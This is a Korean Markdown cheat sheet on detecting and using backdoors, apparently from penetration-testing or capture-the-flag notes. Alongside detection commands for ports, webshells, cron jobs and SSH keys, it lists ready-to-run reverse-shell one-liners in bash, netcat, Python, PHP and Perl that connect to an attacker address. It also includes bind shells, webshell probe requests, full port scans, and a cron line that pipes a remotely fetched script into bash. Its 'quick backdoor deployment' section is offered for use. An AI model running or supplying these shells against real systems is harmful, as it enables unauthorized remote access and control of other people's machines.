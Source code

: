 # 백도어 탐지 및 활용

## 네트워크 연결 확인

```bash
# 리스닝 포트 확인
netstat -tunlp   # Linux
netstat -ano     # Windows

# 특이 연결 탐지
netstat -antup | grep ESTABLISHED
ss -antup        # 최신 리눅스 시스템에서는 ss 명령어

# 비정상 리스닝 포트 확인
netstat -tunlp | grep -v -E "^(tcp6|udp6)"
netstat -tulpn | grep -E ':4444|:5555|:1337|:[0-9]{5}'  # 일반적인 백도어 포트
```

## 파일시스템 탐지

```bash
# 의심스러운 파일 검색
find / -type f -mtime -1 -not -path "/proc/*" -ls 2>/dev/null  # 24시간 내 수정 파일
find / -type f -perm -o+w -not -path "/proc/*" -ls 2>/dev/null  # 모두 쓰기 권한 파일
find / -name ".*" -type f -not -path "/proc/*" 2>/dev/null     # 숨겨진 파일

# 웹 백도어 검색 (PHP)
find /var/www/ -name "*.php" -type f -exec grep -l "system\|exec\|passthru\|shell_exec" {} \;
find /var/www/ -name "*.php" -type f -exec grep -l "eval *(" {} \;
find /var/www/ -name "*.php" -type f -exec grep -l "base64_decode" {} \;
```

## 프로세스/작업 검사

```bash
# 프로세스 검사
ps aux --forest      # 트리 형태로 프로세스 확인
ps aux | grep -i "nc\|netcat\|ncat\|socat"  # 네트워크 도구
ps aux | grep -v "^root\|^www-data\|^nobody"  # 비정상 사용자 프로세스

# 크론 작업 검사
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /var/spool/cron/crontabs/
cat /var/spool/cron/crontabs/root  # 루트 크론 작업 확인
```

## Netcat 백도어 검사/활용

```bash
# 열린 포트 테스트
nc -nvz 10.10.10.10 1-65535  # 전체 포트 스캔
nc -nvz 10.10.10.10 4000-5000  # 범위 스캔
nc -nvz 10.10.10.10 21 22 23 80 443 445 3306 5432 8080  # 특정 포트

# 배너 그랩
nc -nv 10.10.10.10 4444  # 특정 포트 배너 확인
echo -e "GET / HTTP/1.0\r\n\r\n" | nc 10.10.10.10 80  # HTTP 배너

# 백도어 연결
nc 10.10.10.10 4444  # 기본 연결
nc -vn 10.10.10.10 4444  # 상세 출력
```

## 백도어 유형 및 활용

```bash
# 리버스 쉘 (타겟→공격자)
# 공격자 측
nc -lvnp 4444

# 타겟 측
bash -i >& /dev/tcp/10.10.14.x/4444 0>&1
nc -e /bin/bash 10.10.14.x 4444  # 구형 nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.x 4444 >/tmp/f  # 대안
```

## 백도어 유형별 탐지/대응

### PHP 웹 백도어

```bash
# 탐지
grep -r "system\|exec\|shell_exec\|passthru\|eval" /var/www/

# 일반적 백도어 파라미터
curl "http://target/shell.php?cmd=id"
curl "http://target/shell.php?c=id"
curl "http://target/shell.php?backdoor=id"
curl "http://target/shell.php" -d "cmd=id"

# 확인 방법
md5sum /var/www/html/wp-content/uploads/shell.php
stat /var/www/html/includes/shell.php  # 생성/수정 시간
```

### 크론 백도어

```bash
# 일반적 위치
/etc/cron.d/
/etc/crontab
/var/spool/cron/crontabs/

# 백도어 예시
*/10 * * * * root curl -s http://10.10.14.x/shell | bash
@daily www-data /tmp/.backdoor
```

### SSH 백도어

```bash
# 인증키 확인
find / -name "authorized_keys" -ls 2>/dev/null
cat ~/.ssh/authorized_keys
cat /root/.ssh/authorized_keys

# 의심스러운 설정
cat /etc/ssh/sshd_config | grep -i "PermitRoot\|PasswordAuth\|PubkeyAuth"
```

## 빠른 백도어 배포

### 리버스 쉘 (타겟→공격자)

```bash
# Bash
bash -i >& /dev/tcp/10.10.14.x/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.x",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.14.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="10.10.14.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 바인드 쉘 (공격자→타겟)

```bash
# Netcat
nc -lvp 4444 -e /bin/bash  # 타겟에서 실행
nc 10.10.10.x 4444         # 공격자에서 연결

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

## 백도어 탐지 체크리스트

1. 네트워크 연결: `netstat -tunlp`, `ss -tunlp`
2. 비정상 포트: `lsof -i`
3. 의심 프로세스: `ps auxf`, `pstree -p`
4. 크론 작업: `cat /etc/crontab`, `/var/spool/cron/crontabs/*`
5. 웹쉘: `find /var/www -type f -mtime -3 -name "*.php"`
6. 권한 설정: `find / -perm -4000 -ls 2>/dev/null`
7. SSH 키: `~/.ssh/authorized_keys`
8. 로그 확인: `/var/log/auth.log`, `/var/log/apache2/access.log`
